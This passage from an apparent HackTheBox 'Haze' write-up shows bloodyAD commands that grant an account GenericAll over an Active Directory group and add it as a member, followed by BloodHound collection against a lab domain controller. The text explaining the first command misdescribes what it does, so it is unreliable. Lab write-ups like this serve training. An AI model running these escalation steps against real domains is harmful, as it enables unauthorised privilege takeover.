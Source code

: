 ```bash
./fk.sh $IP \
bloodyAD --host "dc01.haze.htb" -d "haze.htb" -u 'Haze-IT-Backup$' -k \
add genericAll "CN=SUPPORT_SERVICES,CN=Users,DC=haze,DC=htb" 'Haze-IT-Backup$'
```

This command adds **Haze-IT-Backup$** as a **member of the SUPPORT_SERVICES group** in Active Directory on **dc01.haze.htb**, using **Kerberos authentication**. 

```bash
./fk.sh $IP \
bloodyAD --host "dc01.haze.htb" -d "haze.htb" -u 'Haze-IT-Backup$' -k \
add groupMember "SUPPORT_SERVICES" 'Haze-IT-Backup$'
```

![Screenshot 2025-04-01 at 1.34.12 AM.png](/assets/Images/HTB_Haze/Screenshot_2025-04-01_at_1.34.12_AM.png)

```bash
KRB5CCNAME=Haze-IT-Backup\$.ccache \
./fk.sh $IP \
bloodhound-python -u 'Haze-IT-Backup$' -d 'haze.htb' -ns $IP --zip -c All -dc 'dc01.haze.htb' -k -no-pass
```

